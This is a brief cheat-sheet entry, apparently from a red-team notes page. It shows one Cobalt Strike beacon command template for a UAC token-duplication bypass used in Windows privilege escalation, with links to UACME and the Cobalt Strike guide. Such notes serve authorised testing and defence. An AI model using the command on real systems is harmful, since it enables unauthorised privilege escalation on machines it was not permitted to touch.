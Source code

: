 # Cobalt Strike

```
beacon> runasadmin uac-token-duplication <commmand> [arguments]
```

---
## References

- [UACME](https://github.com/hfiref0x/UACME)

- [Cobalt Strike User Guide: Privilege Escalation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/post-exploitation_privilege-escalation.htm)